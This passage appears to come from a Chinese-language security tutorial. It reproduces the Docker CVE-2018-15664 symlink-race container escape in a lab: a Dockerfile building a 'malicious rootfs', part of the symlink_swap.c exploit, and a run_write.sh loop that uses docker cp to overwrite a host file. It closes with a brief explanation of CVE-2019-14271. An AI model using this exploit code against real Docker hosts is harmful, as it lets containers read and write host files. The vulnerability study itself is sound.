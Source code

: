 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>./metarget cnv install cve-2018-15664<br>``` |

下载并解压 [PoC](https://github.com/brant-ruan/cloud-native-security-book/tree/main/code/0302-%e5%bc%80%e5%8f%91%e4%be%a7%e6%94%bb%e5%87%bb/02-CVE-2018-15664/symlink_race)

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111101858440.png-water_print](assets/1699410413-f4aa47099c1f555a04b5cba2dac0eeb5 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111101858440.png-water_print")

其中，build 目录包含了用来编译 EXP 的 Dockerfile 和漏洞利用源代码 symlink\_swap.c

注意

构建镜像时，在容器内安装 gcc 时报错，可以先在宿主机将 symlink\_swap 编译好，再 COPY 到容器中。

修改后的 Dockerfile：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```dockerfile<br># Build the binary.<br>FROM opensuse/tumbleweed<br># RUN zypper in -y gcc glibc-devel-static<br>RUN mkdir /builddir<br>COPY symlink_swap.c /builddir/symlink_swap.c<br># RUN gcc -Wall -Werror -static -lpthread -o /builddir/symlink_swap /builddir/symlink_swap.c<br>COPY symlink_swap /builddir/symlink_swap<br><br># Set up our malicious rootfs.<br>FROM opensuse/tumbleweed<br>ARG SYMSWAP_TARGET=/w00t_w00t_im_a_flag<br>ARG SYMSWAP_PATH=/totally_safe_path<br>RUN echo "FAILED -- INSIDE CONTAINER PATH" >"$SYMSWAP_TARGET"<br>COPY --from=0 /builddir/symlink_swap /symlink_swap<br>ENTRYPOINT ["/symlink_swap"]<br>``` |

Dockerfile 的主要内容是构建漏洞利用程序，并将其放在容器的根目录下，并在根目录下创建一个 `w00t_w00t_im_a_flag` 文件，内容为：`FAILED -- INSIDE CONTAINER PATH`。容器启动后执行的程序 (`Entrypoint`) 即为：symlink\_swap。

Symlink\_swap.c 内容：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>``` | ```c<br>/*<br>     * Now create a symlink to "/" (which will resolve to the host's root if we<br>     * win the race) and a dummy directory at stash_path for us to swap with.<br>     * We use a directory to remove the possibility of ENOTDIR which reduces<br>     * the chance of us winning.<br>     */<br>    if (symlink("/", symlink_path) < 0)<br>        bail("create symlink_path");<br>    if (mkdir(stash_path, 0755) < 0)<br>        bail("mkdir stash_path");<br><br>    /* Now we do a RENAME_EXCHANGE forever. */<br>    for (;;) {<br>        int err = rrenameat2(AT_FDCWD, symlink_path,<br>                            AT_FDCWD, stash_path, RENAME_EXCHANGE);<br>        if (err < 0)<br>            perror("symlink_swap: rename exchange failed");<br>    }<br>    return 0;<br>}<br>``` |

在容器内创建指向根目录的符号链接，并不断地交换符号链接 (由命令行参数传入，如「totaly\_safe\_path」) 与一个正常的目录 (如：「totaly\_safe\_path-stashed」) 的名字。

run\_read.sh : 实现读取宿主机文件内容的 shell 脚本

run\_write.sh : 实现在宿主机写文件的 shell 脚本

以 `run_write.sh` 为例：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>``` | ```sh<br>SYMSWAP_PATH=/totally_safe_path<br>SYMSWAP_TARGET=/w00t_w00t_im_a_flag<br><br># Create our flag.<br>echo "FAILED -- HOST FILE UNCHANGED" \| sudo tee "$SYMSWAP_TARGET"<br>sudo chmod 0444 "$SYMSWAP_TARGET"<br><br># Run and build the malicious image.<br>docker build -t cyphar/symlink_swap \<br>	--build-arg "SYMSWAP_PATH=$SYMSWAP_PATH" \<br>	--build-arg "SYMSWAP_TARGET=$SYMSWAP_TARGET" build/<br>ctr_id=$(docker run --rm -d cyphar/symlink_swap "$SYMSWAP_PATH")<br><br>echo "SUCCESS -- HOST FILE CHANGED" \| tee localpath<br><br># Now continually try to copy the files.<br>while true<br>do<br>	docker cp localpath "${ctr_id}:$SYMSWAP_PATH/$SYMSWAP_TARGET"<br>done<br>``` |

run\_write.sh 启动后恶意容器运行，然后不断执行 docker cp 命令

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111101901056.png-water_print](assets/1699410413-f9b5e94fd16e801a9c386cdd18302074 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111101901056.png-water_print")

### [](#13-cve-2019-14271)1.3 CVE-2019-14271

影响 Docker 19.03.x before 19.03.1

#### [](#131-%E5%8E%9F%E7%90%86)1.3.1 原理

docker cp 命令依赖的 docker-tar 组件会加载容器内部的 nsswitch 动态链接库，攻击者可以通过劫持容器内部的 nsswitch 来实现代码的注入，获得宿主机上的 root 权限的代码执行能力。
